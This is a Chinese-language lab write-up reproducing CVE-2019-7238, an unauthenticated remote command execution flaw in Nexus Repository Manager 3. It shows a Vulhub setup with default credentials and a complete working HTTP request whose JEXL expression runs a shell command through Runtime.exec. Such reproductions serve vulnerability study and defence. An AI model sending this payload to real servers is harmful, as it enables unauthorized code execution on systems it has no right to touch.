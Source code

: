 # CVE-2019-7238

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Nexus Repository Manager 3 远程命令执行漏洞



## 0x01 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

## 0x02 影响版本

3.14.0及之前版本

## 0x03 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.14.0：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

使用账号密码`admin:admin123`登录后台，然后在maven-releases下随便上传一个jar包：

![image-20240903215202235](./image/image-20240903215202235.png)

触发该漏洞，必须保证仓库里至少有一个包存在。

## 0x04 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/success`命令：

```text
POST /service/extdirect HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

![image-20220226234815987](./image/202202262348240-1725371590531-3.png)

